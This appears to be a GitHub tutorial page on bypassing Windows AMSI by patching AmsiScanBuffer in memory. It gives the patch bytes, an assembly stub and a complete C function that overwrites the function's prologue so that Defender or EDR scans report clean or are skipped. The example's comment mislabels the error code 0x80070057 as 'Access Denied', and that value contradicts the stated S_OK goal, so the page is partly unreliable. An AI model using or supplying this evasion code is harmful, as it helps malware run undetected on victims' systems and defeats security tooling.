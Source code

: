 ## **Target of the AMSI Patch: `AmsiScanBuffer`**

This function, found in `amsi.dll`, is the one that:

1. Receives your script or shellcode (in plaintext, decrypted at runtime),

2. Sends it to the AV (Defender, EDR),

3. Gets a response (clean / malware),

4. May block or allow execution.

Patching `AmsiScanBuffer` = making it believe **everything is clean**, or **preventing the scan entirely**.

## Objective of the AMSI Patch

**Neutralize `AmsiScanBuffer`** to:

* Always return `S_OK` (i.e., “all good”)
  **OR**
* Return immediately without doing anything

## Classic method: overwrite the function prologue with `mov eax, 0 ; ret`

The goal is to transform `AmsiScanBuffer` into:

```asm
mov eax, 0x0       ; return code = S_OK
ret
```

C payload:

```C
BYTE patch[] = { 0xB8, 0x00, 0x00, 0x00, 0x00, 0xC3 };
```

## SIMPLE EXAMPLE:

```C
#include <windows.h>
#include <stdio.h>

void PatchAMSI() {
    HMODULE hAmsi = LoadLibraryA("amsi.dll");
    if (!hAmsi) return;

    void* amsiScanBuffer = GetProcAddress(hAmsi, "AmsiScanBuffer");
    if (!amsiScanBuffer) return;

    DWORD oldProtect;
    BYTE patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 }; // mov eax, 0x80070057 ; ret (Access Denied)

    VirtualProtect(amsiScanBuffer, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(amsiScanBuffer, patch, sizeof(patch));
    VirtualProtect(amsiScanBuffer, sizeof(patch), oldProtect, &oldProtect);
}
```
